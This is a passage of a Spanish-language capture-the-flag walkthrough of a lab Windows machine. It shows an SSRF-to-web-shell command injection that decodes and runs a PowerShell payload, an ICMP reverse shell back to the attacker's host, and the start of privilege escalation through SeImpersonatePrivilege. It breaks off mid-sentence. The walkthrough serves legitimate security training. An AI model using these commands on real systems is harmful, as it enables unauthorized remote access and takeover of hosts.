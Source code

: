     - y en la url de la web seria:

        ```bash
        http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell $file = Get-Content C:\Temp\reverse.ps1; $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file)); $decode > C:\Temp\pwned.ps1
        ```

1. Lanzamos el script python previamente descargado

    ```bash
    rlwrap python icmpsh_m.py 10.10.14.8 10.10.10.57
    ```

1. Ejecutamos el pwned.ps1 desde la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell C:\Temp\pwned.ps1
    ```

Por fin estamos adentro de la maquina ;)

## Escalada de Privilegios {-}

### Rootear la maquina {-}

```bash
whoami /priv
#Output

SEImpersonatePrivilege
```

Aqui ya vemos que podemos escalar privilegios con 
```bash
 JuicyPotatoe.exe 
```
 o 
```bash
 RotenPotatoe.exe 
```
 pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.

#### Secuestro de comandos para copiar los ficheros del usuario decoder.MINION {-}

```bash
dir c:\
dir c:\sysadmscripts
```

Vemos en 
```bash
 C:\ 
```
 un directorio raro llamado 
```bash
 sysadmscript 
```
. En este directorio, hay dos ficheros:
